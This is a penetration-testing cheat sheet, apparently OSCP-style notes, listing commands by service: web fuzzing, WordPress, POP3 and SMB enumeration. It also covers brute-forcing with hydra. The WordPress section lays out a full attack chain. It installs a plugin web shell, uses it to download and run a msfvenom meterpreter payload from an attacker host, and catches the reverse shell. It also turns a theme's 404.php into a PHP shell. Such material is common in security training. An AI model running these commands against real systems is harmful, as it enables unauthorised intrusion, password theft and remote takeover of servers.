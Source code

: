             - Other extensions: `bak,js,doc,html,asp,aspx,zip,pl,sh,json,py,cfm,rb,cgi`
            - Other wordlists:  `/usr/share/seclists/Discovery/Web_Content/common.txt ; /usr/share/wordlists/dirb/big.txt ; /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`
        - Or:  `dirb http://10.10.10.58:3000 -a "Custom Agent"`
        - Or:  `ffuf -u https://codingo.io/FUZZ -w ./wordlist.txt -recursion -e .txt,.php,.bak,.html`
    - Subdomains:  `ffuf -c -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -u http://example.com -H "Host: FUZZ.example.com" [-fw 5338]`
- **Wordpress:**  `wpscan --url http://10.10.10.37 -e ap --plugins-detection aggressive --enumerate u --api-token <token>`
    
            WP: After access to admin panel, enumerate: Tools > Site Health
                Install plugin reverse shell: sudo apt install seclists,  cd /usr/share/seclists/Web-Shells/WordPress, sudo zip plugin-shell.zip plugin-shell.php
                Upload and install on WP plugins page
                Or just upload direct shell plugin like at:  https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
                Send commands:   curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
                Generate and transfer shell payload:  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
                     curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
                     curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
                    sudo msfconsole -q -x "use exploit/multi/handler;\
                    > set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
                    > set LHOST 10.11.0.4;\
                    > set LPORT 443;\
                    > run"
                     curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
            RCE:
                Modifying a php from the theme used (admin credentials needed)
                Appearance -> Editor -> 404 Template (at the right)
                Change the content for a php shell
                https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
                http://<IP>/wp-content/themes/twentytwelve/404.php

- **Exploit Techniques:**
See Web Exploitation Page

## 88 - Kerberos:
- https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
## 110 - POP3:
- Brute Force:  `hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V  \\  hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V`
- Read Mail (w/ creds):  `telnet 10.10.10.17 110; USER bob; PASS password123; LIST; RETR <mail #>; QUIT`
- Other commands: http://sunnyoasis.com/services/emailviatelnet.html
## 139/445 - SMB:
- Scan Subnet for Shares:  `nbtscan 192.168.1.0/24`
- Check for Vulns (could crash):  `nmap -script smb-vuln* -script-args=unsafe=1 -p139,445 <IP>`
- Sniff version:  `sudo ngrep -i -d <interface> 's.?a.?m.?b.?a*[[:digit:]]' port 139  ;  smbclient -L <IP>  \\  Or MSF:  use auxiliary/scanner/smb/smb_version`
- View Shares:  `smbmap -H <IP>  \\  smbclient -L <IP>`
- Enumerate:  `enum4linux [-a] <IP>` ; - `nmblookup -A <target>`
    - Users:  `python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX`
- Brute Force:  `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV`
- Connect:  `Anonymous: smbclient //$ip/share -N  \\  smbclient \\\\$ip\\$share [-U <user>]  \\  smbclient -L <IP> -U administrator  (or anonymous)`
    - Commands:  `help, get, put, etc.`
- Null session with rpcclient (MS-RPC) for legacy samba or SMB:  `rpcclient -U "" [target IP address]  ;  enumdomusers`